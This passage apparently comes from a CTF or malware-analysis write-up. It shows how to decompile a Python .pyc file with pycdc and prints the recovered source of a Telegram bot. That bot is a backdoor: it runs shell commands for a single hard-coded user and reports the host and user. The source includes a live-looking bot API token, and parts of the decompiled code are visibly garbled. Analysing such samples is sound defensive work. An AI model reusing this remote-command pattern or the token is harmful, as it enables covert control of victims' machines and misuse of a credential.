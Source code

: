 ![Result of the tool used](info16.png)

Extract the pyc file to source code using [pycdc](https://github.com/zrax/pycdc)

`pycdc PythonTelegramBot.pyc`

The source code should be something like below.

```python
# Source Generated with Decompyle++
# File: PythonTelegramBot.pyc (Python 3.10)

import telebot
import platform
import subprocess
BOT_API_KEY = '6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY'
telegram_user_id = 0x1724E8650
bot = telebot.TeleBot(BOT_API_KEY)

def verify_telegram_id(id):
    return telegram_user_id == id


def execute_system_command(cmd):
    max_message_length = 2048
    output = subprocess.getstatusoutput(cmd)
    if len(output[1]) > max_message_length:
        return str(output[1][:max_message_length])
    return None(output[1])


def begin(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    hostname = None('hostname')
    current_user = execute_system_command('whoami')
    response = f'''Running as: {hostname}/{current_user}'''
    bot.reply_to(message, response)

begin = bot.message_handler([
    'start'], **('commands',))(begin)

```